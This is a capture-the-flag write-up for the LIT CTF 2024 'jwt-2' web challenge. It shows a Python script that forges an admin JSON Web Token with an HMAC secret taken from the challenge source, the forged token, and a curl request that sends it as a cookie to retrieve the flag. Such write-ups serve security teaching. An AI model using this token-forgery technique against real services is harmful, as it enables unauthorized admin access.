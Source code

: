 # LIT CTF 2024: web/jwt-2
**Title:** web/jwt-2

**Description:** its like jwt-1 but this one is harder URL: [http://litctf.org:31777/](http://litctf.org:31777/).
## Solution:
This is the sequel of the challenge [jwt-1](https://github.com/xtasy94/CTFW/blob/main/LIT%20CTF/jwt-1/jwt-1.md), the description hints at manipulating JWT tokens to gain access to a protected resource. Here’s how we approached the problem:

### Step 1: Analyze the JWT Structure:
The JWT token consists of three parts:

1. **Header**: Contains metadata about the token.
2. **Payload**: Contains the actual data or claims.
3. **Signature**: Used to verify the integrity of the token.

**Header:**
```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

**Payload:** To gain access, we need to include an `admin` field set to `true` in the payload.

**Signature:** The signature is created using HMAC SHA256 with the secret key `"xook"`, according to [index.ts](https://github.com/xtasy94/CTFW/blob/main/LIT%20CTF/jwt-2/Files/index.ts) provided with this challenge.

### Step 2: Generate the JWT Token:
We need to craft a JWT with administrative privileges. Here’s the [Python script](https://github.com/xtasy94/CTFW/blob/main/LIT%20CTF/jwt-2/Files/jwt.py) used to generate a valid JWT:

```python
import json
import base64
import hmac
import hashlib

jwt_secret = 'xook'

header = {
    'alg': 'HS256',
    'typ': 'JWT'
}
jwt_header = base64.urlsafe_b64encode(json.dumps(header).encode('utf-8')).decode('utf-8').rstrip('=')

payload = {
    'name': 'testuserBITSAT',
    'admin': True
}
jwt_payload = base64.urlsafe_b64encode(json.dumps(payload).encode('utf-8')).decode('utf-8').rstrip('=')

signature = hmac.new(jwt_secret.encode('utf-8'), f'{jwt_header}.{jwt_payload}'.encode('utf-8'), hashlib.sha256).digest()
jwt_signature = base64.urlsafe_b64encode(signature).decode('utf-8').rstrip('=')

token = f'{jwt_header}.{jwt_payload}.{jwt_signature}'

print('Generated JWT Token:', token)

print('Header:', jwt_header)
print('Payload:', jwt_payload)
print('Signature:', jwt_signature)
```

```
└─$ python3 jwt.py
Generated JWT Token: eyJhbGciOiAiSFMyNTYiLCAidHlwIjogIkpXVCJ9.eyJuYW1lIjogInRlc3R1c2VyQklUU0FUIiwgImFkbWluIjogdHJ1ZX0.vXlsW5vpjiI8nDkvhffewMY6XOXeTuiBRIB0CUhyz3Y
Header: eyJhbGciOiAiSFMyNTYiLCAidHlwIjogIkpXVCJ9
Payload: eyJuYW1lIjogInRlc3R1c2VyQklUU0FUIiwgImFkbWluIjogdHJ1ZX0
Signature: vXlsW5vpjiI8nDkvhffewMY6XOXeTuiBRIB0CUhyz3Y
```

### Step 3: Send the request with tampered JWT:
For this I used an online tool [Run Curl Commands Online (reqbin.com)](https://reqbin.com/curl) and sent the request:
```bash
curl "http://litctf.org:31777/flag" ^
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" ^
  -H "Accept-Language: en-US,en;q=0.9,en-IN;q=0.8" ^
  -H "Connection: keep-alive" ^
  -H "Cookie: token=eyJhbGciOiAiSFMyNTYiLCAidHlwIjogIkpXVCJ9.eyJuYW1lIjogInRlc3R1c2VyQklUU0FUIiwgImFkbWluIjogdHJ1ZX0.vXlsW5vpjiI8nDkvhffewMY6XOXeTuiBRIB0CUhyz3Y" ^
  -H "Referer: http://litctf.org:31777/" ^
  -H "Upgrade-Insecure-Requests: 1" ^
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0" ^
  --insecure
```

And we get the flag as the response: `LITCTF{v3rifyed_thI3_Tlme_1re4DV9}`
